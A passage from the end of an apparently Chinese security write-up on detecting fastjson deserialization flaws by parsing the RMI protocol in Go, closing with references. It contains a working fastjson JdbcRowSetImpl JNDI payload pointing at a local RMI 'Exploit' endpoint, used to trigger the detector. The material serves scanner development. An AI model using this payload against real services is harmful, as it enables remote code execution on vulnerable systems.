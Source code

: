 最终触发Payload

```
public static void main(String[] argv) throws Exception `{`
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    String payload = "`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
        "\"dataSourceName\":\"rmi://127.0.0.1:8888/Exploit\", " +
        "\"autoCommit\":true`}`";
    JSON.parse(payload);
`}`
```

效果如图，成功用golang实现RMI协议的解析，代码有很多不完善，但是提供了一种思路，也许各大厂商可以将该思路加入自己的fastjson扫描组件中

[![](https://p3.ssl.qhimg.com/t013cbfca8c76fec387.png)](https://p3.ssl.qhimg.com/t013cbfca8c76fec387.png)



## 参考链接

[https://koalr.me/post/fastjson-deserialization-detection/](https://koalr.me/post/fastjson-deserialization-detection/)

[https://docs.oracle.com/javase/9/docs/specs/rmi/protocol.html#overview](https://docs.oracle.com/javase/9/docs/specs/rmi/protocol.html#overview)
